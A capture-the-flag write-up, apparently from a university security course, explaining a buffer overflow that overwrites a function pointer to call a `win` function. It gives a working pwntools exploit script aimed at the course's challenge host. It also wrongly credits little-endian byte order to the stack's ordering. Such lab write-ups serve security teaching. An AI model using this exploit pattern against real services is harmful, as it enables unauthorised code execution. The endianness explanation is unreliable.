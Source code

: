 # Challenge `Calling Functions` writeup

- Vulnerability:
  - Buffer Overflow
- Where: Where is the vulnerability present
  - `mustard.stt.rnl.tecnico.ulisboa.pt` on port `23153`
- Impact:
  - Allows attacker to call arbitrary functions

## Steps to reproduce

1. The `buffer` and `fp` variables are reserved consecutively
2. By writing more that 32 characters into `buffer`, the `fp` variable is affected, after the `gets` function.
3. We can set `fp` to the memory address of the `win` function
4. Since the stack is a `first-in-last-out (FILO)` structure, we need to write the bytes in `little-endian`

The code used was:

```py
from pwn import *

session = remote("mustard.stt.rnl.tecnico.ulisboa.pt", "23153", timeout=1000)
session.recvuntil('?')
session.send(b'1'*32 + b'\xf1\x86\x04\x08')
print(session.recvall())
```